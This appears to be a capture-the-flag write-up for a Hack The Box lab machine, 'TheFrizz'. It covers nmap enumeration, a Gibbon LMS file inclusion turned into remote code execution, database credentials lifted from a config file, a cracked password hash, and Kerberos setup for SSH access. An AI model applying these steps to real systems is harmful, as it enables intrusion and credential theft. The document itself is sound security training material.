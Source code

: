 ![image](https://github.com/user-attachments/assets/b18d55ca-14a8-490a-97e6-2e9231fc8eb8)

> first enum with nmap

```shell
# Nmap 7.94SVN scan initiated Wed May 21 15:09:10 2025 as: /usr/lib/nmap/nmap --privileged -sCV -T4 -p22,53,80,88,135,139,389,445,464,593,636,3268,3269,9389 -Pn -oN 155_service.txt 10.129.90.155
Nmap scan report for 10.129.90.155
Host is up (0.21s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-21 20:09:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-21T20:09:44
|_  start_date: N/A
|_clock-skew: 6h00m13s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 21 15:10:13 2025 -- 1 IP address (1 host up) scanned in 62.97 seconds
```

> add the `frizzdc.frizz.htb` to `/etc/hosts` file

![image](https://github.com/user-attachments/assets/414ff2af-a7ae-4950-8c1f-fc7cf91d8c99)

> checking out the web service

![image](https://github.com/user-attachments/assets/4cefd179-0489-4ae0-be5c-ca4608ff3c5f)

opening the web app on browser we can see it runs an education platform. 

![image](https://github.com/user-attachments/assets/1757a8cc-aa0f-47e6-b707-3de0ada637b7)

navigating to the staff login page, we can see it is running `gibbon v25.0.0`. 

![image](https://github.com/user-attachments/assets/6b364863-e852-4c9e-b877-091e7b60b996)

lil bit of research shows the gibbon version is vuln to lfi (local file inclusion) vulnerability.

![image](https://github.com/user-attachments/assets/ce8bae4a-fdf1-4730-b6e4-252fcaeb9f66)

we can see the endpoint for lfi is `http://frizzdc.frizz.htb/Gibbon-LMS/index.php?q=lfi`. we using gibbon.sql, and we can see the info about the sql db. 

> found an exploit on github to trigger RCE

![image](https://github.com/user-attachments/assets/d345733f-b6a9-4b0e-9f75-7e4c7e1e8869)

let's clone and run the exploit 

![image](https://github.com/user-attachments/assets/3fe86a84-377e-449c-aa09-e59c35eba698)

ran the exploit and we got RCE. 

![image](https://github.com/user-attachments/assets/c8cedad4-8983-4833-8f10-176023db8f1a)

we check the dirs for files, we can see internal files. let's play around, pop shell 

![image](https://github.com/user-attachments/assets/438814dc-9384-4b49-b78c-0cb30399c771)

checking the conifg.php file, we got creds. 

```sql
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

![image](https://github.com/user-attachments/assets/930dcbd5-c2b3-4907-9156-81c8a9a92ec9)

Pop a revershell.



## Privilege Escalation


> enumerating mysql

![image](https://github.com/user-attachments/assets/b187bb46-aa6f-4718-9d4f-57db53cfe8d6)

using the creds we got from `config.php`. we got user `frizzle` password and salt. 

![image](https://github.com/user-attachments/assets/33121bbe-d430-400f-a025-d1624423d780)

check what hash it is, we can see it is `sha-256` with the salt 

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/thefrizz]
└─$ cat hash.txt 
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
```

![image](https://github.com/user-attachments/assets/769f980a-a009-498f-a3e1-ec948ef8bde2)

cracked the hash to `Jenni_Luvs_Magic23`. 

![image](https://github.com/user-attachments/assets/c4f86167-5050-4db7-b028-032ffa76526e)

login the webpage using the cracked creds `f.frizzle:Jenni_Luvs_Magic23`.

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/thefrizz]
└─$ ssh f.frizzle@10.129.206.246     
f.frizzle@10.129.206.246: Permission denied (gssapi-with-mic,keyboard-interactive).
```
ssh was enabled, trying to login ssh failed. getting some error 

![image](https://github.com/user-attachments/assets/5237dfae-262d-499c-8681-0229204271e7)

Mehnnnnn after hours of research, almost 24hours of stakoverflow, unixoverflow. gpt 😂, we got shell as user `f.frizzle`

> steps to getting shell as user `f.frizzle`.

```
[libdefaults]
    default_realm = FRIZZ.HTB

[realms]
    FRIZZ.HTB = {
        kdc = 10.129.197.79
        admin_server = 10.129.197.79
    }

[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
```

first edit your `/etc/krb5.conf` file. if you don't have install using 

```
sudo apt install krb5-user
```

> After setting up your krb5.conf file

```shell
kinit f.frizzle@FRIZZ.HTB

ssh f.frizzle@10.129.197.79
```
we got shell as user `f.frizzle`.





